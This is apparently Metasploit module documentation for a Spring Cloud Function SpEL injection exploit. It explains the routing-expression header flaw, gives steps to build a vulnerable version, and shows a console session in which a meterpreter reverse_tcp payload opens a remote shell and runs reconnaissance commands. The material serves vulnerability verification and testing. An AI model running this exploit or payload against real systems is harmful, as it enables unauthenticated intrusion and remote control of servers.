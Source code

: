## Vulnerable Application

Spring Cloud Function versions prior to 3.1.7 and 3.2.3 are vulnerable to remote code execution due to using
an unsafe evaluation context with user-provided queries. By crafting a request to the application and setting
the spring.cloud.function.routing-expression header, an unauthenticated attacker can gain remote code
execution. Both patched and unpatched servers will respond with a 500 server error and a JSON encoded message.

## Verification Steps

1. Build the application
   1. `wget https://github.com/spring-cloud/spring-cloud-function/archive/refs/tags/v3.1.6.zip`
   2. `unzip v3.1.6.zip`
   3. `cd spring-cloud-function-3.1.6/spring-cloud-function-samples/function-sample-pojo`
   4. `mvn package`
2. Run the application
   1. `java -jar ./target/function-sample-pojo-2.0.0.RELEASE.jar`
3. Start msfconsole
4. Run: `use exploit/multi/http/spring_cloud_function_spel_injection`
5. Set the `RHOSTS`, `TARGET`, `PAYLOAD` and payload associated datastore options
6. Run the exploit

## Options

## Scenarios

### Spring Cloud Function v3.1.6 on Fedora 34

```
msf6 exploit(multi/http/spring_could_function_spel_injection) > show options 

Module options (exploit/multi/http/spring_could_function_spel_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.159.128  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /functionRouter  yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.250.134  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf6 exploit(multi/http/spring_could_function_spel_injection) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Executing Unix Command for cmd/unix/python/meterpreter/reverse_tcp
[*] Sending stage (39920 bytes) to 192.168.250.134
[*] Meterpreter session 1 opened (192.168.250.134:4444 -> 192.168.250.134:56924 ) at 2022-03-30 17:59:07 -0400

meterpreter > getuid
Server username: smcintyre
meterpreter > pwd
/home/smcintyre/spring-rce/spring-cloud-function-3.1.6/spring-cloud-function-samples/function-sample-pojo
meterpreter > sysinfo
Computer        : localhost.localdomain
OS              : Linux 5.16.14-100.fc34.x86_64 #1 SMP PREEMPT Fri Mar 11 20:24:01 UTC 2022
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > 
```
